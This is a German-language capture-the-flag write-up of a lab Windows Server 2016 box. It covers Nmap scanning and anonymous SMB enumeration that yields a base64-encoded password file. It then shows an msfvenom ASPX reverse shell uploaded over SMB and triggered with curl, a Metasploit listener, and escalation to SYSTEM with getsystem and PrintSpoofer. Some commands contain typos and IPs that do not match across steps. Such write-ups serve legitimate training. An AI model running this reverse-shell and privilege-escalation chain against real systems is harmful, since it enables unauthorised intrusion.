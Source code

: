 # Ziel 10.10.57.161

# Scanning

## NMAP 

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2025-10-28T08:22:06+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2025-10-27T08:16:22
|_Not valid after:  2026-04-28T08:16:22
|_ssl-date: 2025-10-28T08:22:46+00:00; 0s from scanner time.
MAC Address: 02:BA:11:C4:D8:7B (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: -1s
|_nbstat: NetBIOS name: RELEVANT, NetBIOS user: <unknown>, NetBIOS MAC: 02:ba:11:c4:d8:7b (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-10-28T01:22:06-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-28T08:22:06
|_  start_date: 2025-10-28T08:16:22


```

->  SMB Offen 

# SMB Enumeration


Schauen welche Verzeichnisse wir haben: 

(Kein PW benötigt)
```
root@ip-10-10-109-7:~# smbclient -L 10.10.189.139
Password for [WORKGROUP\root]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
SMB1 disabled -- no workgroup available

```

Versuch auf nt4wrksv zuzugreifen

```
root@ip-10-10-109-7:~# smbclient \\\\10.10.189.139\\nt4wrksv
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 22:46:04 2020
  ..                                  D        0  Sat Jul 25 22:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 16:15:33 2020

		7735807 blocks of size 4096. 5139015 blocks available

```

das hat sich gelohnt 

Inhalt der Datei 
```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

Der Obere Part ist Base64 der zweite ist in Crackstation bekanntinhalt decoded unterhalb

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

# 2x Login found 

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

# Exploiting

Da wir access auf smb und einen Public share haben können wir hier auch ansetzten und eine Rev shell starten

Erstellen der revshell

```
msfvenom -p /windows/x64/windoes_reverse_tcp lhost=10.10.109.7 lport=8910 -f aspx -o shell.aspx
```

die laden wir dann mit put hoch. 

Nun noch einen Listener starten in dem Fall am besten mit MFS Console 

```
msf6 > use exploit/multi/handler  
[*] Using configured payload generic/shell_reverse_tcp  
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp  
payload => windows/x64/meterpreter_reverse_tcp  
msf6 exploit(multi/handler) > set LHOST 10.10.109.7
LHOST =>  10.10.109.7
msf6 exploit(multi/handler) > set LPORT 8910  
LPORT => 8910
```

und dafür sorgen das die Session gestartet wird 

```
curl http://10.10.249.119:49663/nt4wrksv/shell1.aspx

```

shon haben wir access


Um Rechte auszuweiten können wir entweder das Toolkit von Multi handler nutzen via

```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

oder manuell, indem wir zuersteinmal schauen was uns so zur verfügung steht via 

```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege


```

Hier intressant zu sehen ist das wir das  "SeImpersonatePrivilege" haben

Um das zu exploiten können wir den Forgefertigten Exploit PrintSpoofer nutzen 

```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

Die Exe laden wir dann mit SMB hoch und switchen via "shell" in Meterpreter auf eine cmd auf dem system

Jetzt wechseln wir in das SMB verzeichniss via der shell 

```
cd c:/inetpub/wwwroot/nt4wrksv
```

und führen das tool aus 

```
PrintSpoofer64.exe -i -c powershell.exe
```

Tadaa schon haben wir root und können uns die Flag holen